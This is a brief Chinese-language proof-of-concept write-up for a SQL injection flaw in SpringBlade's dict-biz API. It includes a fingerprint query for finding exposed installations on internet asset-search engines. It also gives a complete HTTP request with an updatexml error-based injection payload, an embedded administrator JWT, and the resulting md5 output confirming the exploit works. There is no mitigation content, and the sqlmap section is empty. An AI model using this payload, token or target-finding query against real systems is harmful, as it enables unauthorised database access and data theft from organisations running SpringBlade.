 # SpringBlade dict-biz存在SQL注入漏洞

# 一、漏洞简介
SpringBlade dict-biz存在SQL注入漏洞，攻击者利用该漏洞进行SQL注 入攻击

# 二、影响版本
+ SpringBlade

# 三、资产测绘
+ `<font style="color:rgb(63, 63, 63);">body="https://bladex.vip"</font>`

![1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71.png](./img/eKNle2a8FR_4cOKY/1703260241729-c77ed022-a493-4621-983c-5ec64ddbde71-322685.png)

# 四、漏洞复现
```java
GET /api/blade-system/dict-biz/list?updatexml(1,concat(0x7e,md5(1),user(),0x7e),1)=1 HTTP/1.1
Host: 
Blade-Auth:	eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJpc3MiOiJpc3N1c2VyIiwiYXVkIjoiYXVkaWVuY2UiLCJ0ZW5hbnRfaWQiOiIwMDAwMDAiLCJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIiwidXNlcl9pZCI6IjExMjM1OTg4MjE3Mzg2NzUyMDEiLCJyb2xlX2lkIjoiMTEyMzU5ODgxNjczODY3NTIwMSIsInVzZXJfbmFtZSI6ImFkbWluIiwib2F1dGhfaWQiOiIiLCJ0b2tlbl90eXBlIjoiYWNjZXNzX3Rva2VuIiwiZGVwdF9pZCI6IjExMjM1OTg4MTM3Mzg2NzUyMDEiLCJhY2NvdW50IjoiYWRtaW4iLCJjbGllbnRfaWQiOiJzd29yZCIsImV4cCI6MTc5MTU3MzkyMiwibmJmIjoxNjkxNTcwMzIyfQ.wxB9etQp2DUL5d3-VkChwDCV3Kp-qxjvhIF_aD_beF_KLwUHV7ROuQeroayRCPWgOcmjsOVq6FWdvvyhlz9j7A
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
```

![1713236352998-9826b36e-1662-4854-b88f-d07dc13498d5.png](./img/eKNle2a8FR_4cOKY/1713236352998-9826b36e-1662-4854-b88f-d07dc13498d5-184725.png)

```java
c4ca4238a0b923820dcc509a6f75849
```

sqlmap

```java

```



> 更新: 2024-12-13 17:10:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wpz38hmzaeugpctm>